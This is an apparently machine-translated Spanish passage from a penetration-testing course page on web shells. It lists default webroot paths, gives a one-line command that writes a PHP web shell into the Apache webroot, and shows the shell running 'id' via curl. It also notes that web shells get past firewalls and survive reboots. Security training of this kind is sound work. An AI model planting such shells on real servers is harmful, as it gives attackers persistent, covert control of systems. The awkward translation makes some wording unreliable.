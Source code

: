Sin embargo, si solo tenemos una ejecución de comandos remotos a través de un exploit, podemos escribir nuestro shell directamente a la raíz web para acceder a él a través de la web. Entonces, el primer paso es identificar dónde está la raíz web. Los siguientes son los Webroots predeterminados para servidores web comunes:

|Servidor web|Webroot predeterminado|
|---|---|
|`Apache`|/var/www/html/|
|`Nginx`|/usr/local/nginx/html/|
|`IIS`|c: \ inetpub \ wwwroot \|
|`XAMPP`|C: \ xampp \ htdocs \|

Podemos verificar estos directorios para ver qué raíz web está en uso y luego usar`echo`para escribir nuestro shell web. Por ejemplo, si estamos atacando a un host de Linux que ejecuta Apache, podemos escribir un`PHP`shell con el siguiente comando:

Código:intento

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

---

#### Acceder a Web Shell

Una vez que escribimos nuestro shell web, podemos acceder a él a través de un navegador o utilizando`cURL`. Podemos visitar el`shell.php`página en el sitio web comprometido y usar`?cmd=id`para ejecutar el`id`dominio:

   

![UID, GID, and groups set to www-data.](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

Otra opción es usar`cURL`:

  Tipos de conchas

```shell-session
xnoxos@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Como podemos ver, podemos seguir cambiando el comando para obtener su salida. Un gran beneficio de un shell web es que omitiría cualquier restricción de firewall en su lugar, ya que no abrirá una nueva conexión en un puerto, sino que se ejecutará en el puerto web en`80`o`443`, o cualquier puerto que esté utilizando la aplicación web. Otro gran beneficio es que si se reinicia el host comprometido, el shell web aún estaría en su lugar, y podemos acceder a él y obtener la ejecución de comandos sin explotar el host remoto nuevamente.

Por otro lado, un shell web no es tan interactivo como lo son los shells reverso y de enlace, ya que tenemos que seguir solicitando una URL diferente para ejecutar nuestros comandos. Aún así, en casos extremos, es posible codificar un`Python`Script para automatizar este proceso y danos un shell web semi interactivo directamente dentro de nuestro terminal.